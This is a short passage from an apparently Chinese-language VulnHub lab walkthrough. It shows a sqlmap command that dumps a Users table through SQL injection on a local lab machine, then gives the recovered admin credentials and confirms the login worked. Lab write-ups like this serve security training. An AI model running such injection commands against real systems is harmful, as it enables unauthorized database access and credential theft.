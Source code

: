 ![image-20241206205239860](vulnhub靶场实战/image-20241206205239860.png)	

```
于是查看Users表的数据。由于里面存储的密码是哈希，可以交给sqlmap进行进一步的哈希碰撞来得到结果
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D Staff -T Users --dump
```

![image-20241206205436468](vulnhub靶场实战/image-20241206205436468.png)	

```
最后得到账号和密码。分别是admin和transorbital1
```

![image-20241206205502052](vulnhub靶场实战/image-20241206205502052.png)	

```
此时使用该账号和密码登录网站是成功的。
```

![image-20241206205602915](vulnhub靶场实战/image-20241206205602915.png)	
